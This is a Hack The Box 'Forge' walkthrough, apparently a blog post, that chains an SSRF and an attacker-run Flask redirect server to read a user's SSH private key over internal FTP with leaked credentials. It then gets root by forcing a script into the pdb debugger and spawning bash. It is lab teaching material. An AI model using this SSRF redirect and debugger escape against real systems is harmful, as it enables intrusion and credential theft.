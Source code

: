 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image Jun 5, 2025, 12_33_13 AM.png
coverY: 316
---
```


# HTB-Forge: Double SSRF to Root Breaking Forge from the Inside Out 🧨

Just finished cracking **HTB: Forge**, and it turned out to be a slick lesson in chaining internal trust, redirection logic, and misconfigurations. A simple redirect opened the door, and an internal service’s blind trust in itself handed me the keys. This post takes you through the full chain—from initial recon to full root. 🔐



<figure><img src="../.gitbook/assets/ChatGPT Image Jun 5, 2025, 12_33_13 AM.png" alt=""><figcaption></figcaption></figure>

***

### Recon: Nmap to the Rescue 🔍

Kicked things off with a full port scan:

Start with a full port scan:

```bash
nmap -sC -sV -Pn -p- forge.htb
```

#### Results

```
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open     http    Apache httpd 2.4.41
```

#### Observations 📌

* Port 21 is behind a firewall.
* Port 80 is hosting a web application that redirects to `http://forge.htb`.

When navigating the site, clicking on images gives URLs like:

<figure><img src="../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

```
http://forge.htb/static/images/image1.jpg
```

The presence of a `/static/` path hints at an MVC-style framework.

***

### Subdomain Discovery

Running a subdomain fuzz revealed:

```
admin.forge.htb
```

***

### Exploitation: SSRF + Redirect = Win

* The application followed redirects on user-submitted URLs. So, I spun up a Flask server to exploit that behavior:

```python
from flask import Flask, redirect, request
app = Flask(__name__)

@app.route("/")
def admin():
    return redirect('http://admin.forge.htb')

app.run(debug=True, host="0.0.0.0", port=80)

```

<figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

* this had an upload and announcements

Visiting `/announcements` on this subdomain displayed:

```html
<li>An internal FTP server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http, and https.</li>
<li>You can upload via URL using ?u=&lt;url&gt;.</li>
```

```python
#!/usr/bin/env python

from flask import Flask, redirect, request

app = Flask(__name__)

@app.route("/2")
def ftp_direct():
    f = request.args.get('f', default='')
    return redirect(f'http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa')  
    
@app.route("/")
def admin():
    return redirect('http://admin.forge.htb')


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)  
```

***

### Shell Time

Once I had the key:

```bash
chmod 600 user.key
ssh -i user.key user@10.10.11.111
```

Boom. User shell obtained.

***

### Privilege Escalation: Debug Mode Exploit

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Found this script at `/opt/remote-manage.py`:

```python
...
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
    clientsock.send(b'Wrong password!\n')
else:
    # Admin menu with options
...
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
```

If the script fails, it invokes `pdb`—a Python debugger. With two simultaneous sessions, I triggered it to drop into interactive mode.

Then, I popped a shell:

```python
import os
os.system("/bin/bash")
```

Rooted.

<figure><img src="../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>
